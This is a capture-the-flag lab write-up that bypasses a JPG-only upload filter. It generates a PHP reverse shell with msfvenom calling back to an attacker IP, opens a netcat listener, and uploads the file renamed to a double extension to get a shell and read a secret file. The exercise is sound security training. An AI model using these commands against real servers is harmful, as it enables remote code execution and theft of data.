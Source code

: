 # Challenge #2 - Tomato Lovers 2

## Objectives

- The website owner has received your suggestion of limiting the type of files being accepted in the upload web form.
- They decided to allow only JPG files. Your objective is to determine if the security mechanism in place has really fixed the vulnerability.
- In order to prove that the threat is still there, you should upload a file that let you run PHP commands on the server.
- You will find a trophy in the file readthissecret.php in the website root

## What you will learn

- How to find and exploit vulnerable upload forms
- How to determine the impact related to an Unrestricted File Upload vulnerability
- How to write your own PHP Shell

## Steps


Craft a php shell to upload. Replace the IP with your own VPN IP. The extension must be a valid

```bash
msfvenom -p php/reverse_php lhost=10.100.13.200 lport=1234 -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3007 bytes
Saved as: shell.php
```

Upload this filea on the photo section.

```
http://2.challenge.fileres.site/index.php?section=photos
```

Open a terminal and start a netcat session.

```
nc -nvlp 1234
```

This time, you will receive an error message.

```
Invalid file type! Only JPG files allowed
```

Rename your file to shell.jpg.php and send again.

Request your file on the uploads page.

```
http://2.challenge.fileres.site/uploads/shell.jpg.php
```

On your new shell session read the secret file.

```html
cat ../readthissecret.php
<?php

// YOUR SECRET IS: <<$trophy>>
```
